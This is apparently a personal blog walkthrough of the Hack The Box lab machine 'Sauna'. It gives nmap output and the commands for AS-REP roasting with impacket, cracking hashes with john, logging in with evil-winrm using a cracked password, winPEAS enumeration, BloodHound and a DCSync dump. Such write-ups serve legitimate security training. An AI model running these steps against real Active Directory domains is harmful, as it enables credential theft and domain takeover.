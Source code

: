 ```yaml
---
layout: post
title: Hack The Box - Sauna
category: walkthrough
date:   2020-07-28 05:00:00
---
```


# ![sauna](/assets/img/sauna/sauna.png)  
  
<p align="center"> Sauna is a easy machine created by <a egotisticalSW href="https://www.hackthebox.eu/home/users/profile/94858"> egotisticalSW</a></p>

# Enum  
  
  
### <center>nmap</center>  
  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-28 02:53 -03  
>Nmap scan report for 10.10.10.175  
>Host is up (0.21s latency).  
>Not shown: 5920 filtered ports  
>PORT     STATE SERVICE       VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP: 
>|     version  
>|_    bind  
>80/tcp   open  http          Microsoft IIS httpd 10.0  
>| http-methods: 
>|_  Potentially risky methods: TRACE  
>|_http-server-header: Microsoft-IIS/10.0  
>|_http-title: Egotistical Bank :: Home  
>88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-28 12:57:59Z)  
>135/tcp  open  msrpc         Microsoft Windows RPC  
>139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn  
>389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds?  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn\_http    Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
>|_http-server-header: Microsoft-HTTPAPI/2.0  
>|_http-title: Not Found  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=7/28%Time=5F1FBD97%P=x86\_64-pc-linux-gnu%r(DNSV  
>SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\  
>SF:x04bind\0\0\x10\0\x03");  
>Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows  
  3268
>Host script results:  
>|_clock-skew: mean: 7h03m31s, deviation: 0s, median: 7h03m31s  
>| smb2-security-mode: 
>|   2.02: 
>|_    Message signing enabled and required  
>| smb2-time: 
>|   date: 2020-07-28 10:00:17  
>|_  start_date: N/A  
  
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 308.65 seconds  
  
<p align="center">  
nmap output show me the domain egotistical-bank.local, this is the domain controller.  
nmap also show kerberos 88, IIS 80, ldap 389 and 3268, and 5985 using http, this port usually is WinRM.  
  
First thing I thought was <a href=https://www.tarlogic.com/en/blog/how-to-attack-kerberos/>kerberoasting</a>  
I used <a href="(https://github.com/ifconfig-me/impacket">impacket</a>'s GetADUser.py, but got nothing...  
  
In port 80 I got this page  
</p>  
  
# ![index](/assets/img/sauna/sauna1.png)  
  
<center>Searching something usefull I found usernames on page "About Us"</center>  
# ![users](/assets/img/sauna/sauna2.png)  
  
<p align="center">  
I creted a wordlist with this names, and some possibilities...  
>f.smith  
>fsmith  
>h.bear  
>hbear  
>s.coins  
>scoins  
>btaylor  
>b.taylor  
>s.driver  
>sdriver  
  
My wordlist have a lot more, but there's no need of all...  
  
Now I can use impacket's GetNPUsers.py</p>  
  
  
### <center>Exploit</center>
<center>./GetNPUsers.py egotistical-bank.local/ -usersfile users.txt -request -no-pass -dc-ip 10.10.10.175 -format john  --outputfile hash</center>  
  
  
# ![fsmithHash](/assets/img/sauna/sauna3.png)  
  
<p align="center">
With the brute force of my friend john I cracked this hash  
  
john -w /usr/share/wordlists/rockyou.txt hash</p>  
  
  
# ![passwd](/assets/img/sauna/sauna4.png)  
  
<p align="center">The part I like most in attacking windows, is the <a href="https://github.com/Hackplayers/evil-winrm">evil</a> part
  
./evil-winrm.rb -i 10.10.10.175 -p Thestrokes23 -u fsmith</p>  
  
# ![evilLogin](/assets/img/sauna/sauna5.png)  
  
### <center>Privilege Escalation</center>  
  
<p align="center">To privelige escalation in windows the first thing I use is <a href="https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat">winPEAS.bat</a>  
  
Uploaded winPEAS.bat with upload command of evil-winrm and executed it  
winPEAS spits a lot of informations about everything in the machine  
and found a pass for other user</p>  
# ![svc](/assets/img/sauna/sauna6.png)  
  
<p align="center">Logged in as svc\_loanmgr and invoked the <a href="https://github.com/fox-it/BloodHound.py">hound</a></p>  
  
# ![bloodHound](/assets/img/sauna/sauna7.png)  
  
<center>ziped the json files and sent it to bloodhound</center>  
  
<center>The hound says: svc\_loanmgr is connected to egotistical-bank with getChangesAll and you should try a DCSYnc attack..</center>  
  
# ![HoundHelp](/assets/img/sauna/sauna8.png)  
  
<center>Let's get back to impacket</center>  
  
# ![hashdump](/assets/img/sauna/sauna9.png)  
  
<center>And evil again</center>  
  
# ![evilAdmin](/assets/img/sauna/sauna10.png)  
  
